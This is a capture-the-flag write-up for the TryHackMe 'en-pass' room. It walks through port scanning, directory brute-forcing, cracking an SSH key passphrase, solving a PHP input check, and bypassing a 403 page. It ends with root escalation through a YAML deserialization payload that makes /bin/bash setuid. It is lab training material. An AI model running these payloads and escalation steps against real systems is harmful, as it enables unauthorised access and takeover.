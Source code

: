 # Write-up for en-pass room TryHackMe
---
## Nmap port scanning
```bash
sudo nmap -sC -sV -p 22,8001 -oN port-scan 10.10.37.185
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-03 21:42 EDT
Nmap scan report for 10.10.37.185
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:bf:6b:1e:93:71:7c:99:04:59:d3:8d:81:04:af:46 (RSA)
|   256 40:fd:0c:fc:0b:a8:f5:2d:b1:2e:34:81:e5:c7:a5:91 (ECDSA)
|_  256 7b:39:97:f0:6c:8a:ba:38:5f:48:7b:cc:da:72:a8:44 (ED25519)
8001/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: En-Pass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.34 seconds
```
&nbsp;
## Directory bruteforcing
Recursively bruteforce the directory to find the */key* directory containing private key
```bash
ffuf -u http://10.10.37.185:8001/web/resources/infoseek/configure/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.37.185:8001/web/resources/infoseek/configure/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 403
________________________________________________

key                     [Status: 200, Size: 1766, Words: 9, Lines: 31]
```
&nbsp;
##### Here's the image
![[Pasted image 20210404084128.png]]
&nbsp;
 Copy the key to file and crack it using john found the password being *7¡Vamos!*

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 2 needed for performance.
0g 0:00:00:06 DONE (2021-04-03 21:59) 0g/s 2328Kp/s 2328Kc/s 2328KC/s *7¡Vamos!
Session completed
```
&nbsp;
Doing a directory bruteforce and find */reg.php* and */zip*
```bash
gobuster dir -u http://10.10.37.185:8001/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.37.185:8001/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2021/04/03 22:11:35 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2563]
/web                  (Status: 301) [Size: 317] [--> http://10.10.37.185:8001/web/]
/reg.php              (Status: 200) [Size: 2417]                                   
/403.php              (Status: 403) [Size: 1123]                                   
/zip                  (Status: 301) [Size: 317] [--> http://10.10.37.185:8001/zip/]
```
&nbsp;
This is how */reg.php* looks like
![[Pasted image 20210404094429.png]]
&nbsp;
Upon inspecting the source, found PHP code.
```php
if($_SERVER["REQUEST_METHOD"] == "POST"){
   $title = $_POST["title"];
   if (!preg_match('/[a-zA-Z0-9]/i' , $title )){
          
          $val = explode(",",$title);

          $sum = 0;
          
          for($i = 0 ; $i < 9; $i++){

                if ( (strlen($val[0]) == 2) and (strlen($val[8]) ==  3 ))  {

                    if ( $val[5] !=$val[8]  and $val[3]!=$val[7] ) 
            
                        $sum = $sum+ (bool)$val[$i]."<br>"; 
                }
          
          
          }

          if ( ($sum) == 9 ){
            

              echo $result;//do not worry you'll get what you need.
              echo " Congo You Got It !! Nice ";

        
            
            }
            

                    else{

                      echo "  Try Try!!";

                
                    }
          }
        
          else{

            echo "  Try Again!! ";

      
          }     
 
  }

```
Let's analyze the source code!!!
- The input must not be characters from a-z, A-Z, 0-9
- The input contains 9 words separated by a comma ','
- The first word has to be 2 characters and the last word is 3 characters long
- The sixth word can not be the same as the last word and the fourth word must not be the same as the eighth word
- If you do it right, it will print the password

&nbsp;
This is the input i constructed *!!,!,!,####,!,@@@@,!,\*\*\*,???*
and the password is *cimihan_are_you_here?*
![[Pasted image 20210404095503.png]]
&nbsp;
Gobuster also found a 403.php which i bypassed it with *'..;'*. Upon bypassing it, it reveals another user called *'imsau'*
![[Pasted image 20210404102407.png]]
&nbsp;
Log in via ssh with username imsau and password we obtained
```bash
ssh -i id_rsa imsau@10.10.37.185
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-201-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

1 package can be updated.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


$ bash
imsau@enpass:~$ 
```
&nbsp;
Manual enumeration found a python script located at /opt/scripts called **file.py**
```bash
imsau@enpass:/opt/scripts$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 31 19:40 .
drwxr-xr-x 3 root root 4096 Jan 31 16:34 ..
-r-xr-xr-x 1 root root  250 Jan 31 19:40 file.py
imsau@enpass:/opt/scripts$ cat file.py 
#!/usr/bin/python
import yaml


class Execute():
        def __init__(self,file_name ="/tmp/file.yml"):
                self.file_name = file_name
                self.read_file = open(file_name ,"r")

        def run(self):
                return self.read_file.read()

data  = yaml.load(Execute().run())
imsau@enpass:/opt/scripts$ 
```
&nbsp;
As the script is owned by root and it executes the /tmp/file.yml, we can create the file called *file.yml* to escalate the privilege to root.
```bash
imsau@enpass:/opt/scripts$ nano /tmp/file.yml
imsau@enpass:/opt/scripts$ cat /tmp/file.yml 
!!python/object/apply:os.system ["chmod +s /bin/bash"]

imsau@enpass:/opt/scripts$ 
```
&nbsp;
Then we can execute */bin/bash* as setuid with *-p* option and will give us a root privilege on the machine
```bash
imsau@enpass:/opt/scripts$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# 
```